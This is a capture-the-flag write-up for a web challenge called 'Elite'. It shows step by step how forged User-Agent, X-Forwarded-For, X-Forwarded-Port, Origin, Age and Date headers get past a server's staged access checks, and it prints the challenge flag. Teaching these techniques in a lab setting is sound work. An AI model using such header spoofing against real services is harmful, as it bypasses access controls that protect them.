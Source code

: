 # Elite
## Description
> Do you think you are ELITE? If you really believe so...you are more than welcome to join our Elite Club. However, we will decide whether or not you are worthy enough to join us. All the best!
> 
> Check out our Website here:
> 
> http://chall.ycfteam.in:6375/

## Solution

1. Initial Request: The first request to the /elite endpoint results in a response stating that ```"Only Elite Agents can access this page."``` This suggests the need to modify the User-Agent header.

```http
GET /elite HTTP/1.1
Host: chall.ycfteam.in:6375
User-Agent: Elite
```
Response: The page now instructs that requests must go through a dedicated proxy chain with specific IP addresses.
```raw
Elite members can access this endpoint only via our dedicated proxy chain:
50.23.41.34
3.54.85.90
110.34.87.34
10.43.21.25
```

2. Bypassing Proxy Chain: The next step involves adding an X-Forwarded-For header with the IPs provided.

```http
X-Forwarded-For: 50.23.41.34, 3.54.85.90, 110.34.87.34, 10.43.21.25
```
Response: The server now asks that requests come from a specific port number, 31173.
```raw
Nope! We only accept requests from our Elite port number - 31173. Leave!
```

3. Adding the Required Port: Include the X-Forwarded-Port header with the port number.

```http
X-Forwarded-Port: 31173
```
Response: The server questions the request origin, suggesting the need for an Origin header matching the host.
```
Wait! Where did this request even originate from? How dare you try to enter our club.
```

4. Setting the Origin: Add an Origin header pointing to the challenge domain.

```http
Origin: http://chall.ycfteam.in:6375/
```
Response: The server checks if the request was cached by the proxy servers for 5 seconds each.
```
Something's fishy... Your request to join the elite club should have been cached in each proxy server for 5 seconds. I don't like this. I can't allow you to join. Be gone!
```
5. Adding Cache Age: Set an Age header with a value of 20 seconds to simulate caching (because 4 proxy servers x 5 seconds = 20).

```http
Age: 20
```
Response: The server replies that the registration for the club closed on 27th May 2024 at 11 AM IST.
```
Oops! It seems you are too late my friend... We already closed the club registration on 27th May 2024 at 11 AM IST. Maybe next time...See ya!
```
6. Manipulating the Date: Finally, adjust the Date header any time before the specified date.

```http
Date: Wed, 21 Oct 2015 07:30:00 GMT
```
Response: Success! The server confirms that you’ve proven to be "Elite" and provides the flag.
```
Alright then! You've proven that you are indeed Elite!! Congratulations on joining the club! It's great to have you on board with us. Here's your exclusive welcome gift: CyGenixCTF{W3lc0me_t0_Th3_ELIt3_5qU4d_5bf90dac2b7}
```
## Flag
```CyGenixCTF{W3lc0me_t0_Th3_ELIt3_5qU4d_5bf90dac2b7}```
This challenge involved progressively altering HTTP headers to bypass each security check imposed by the server, culminating in the successful retrieval of the flag.
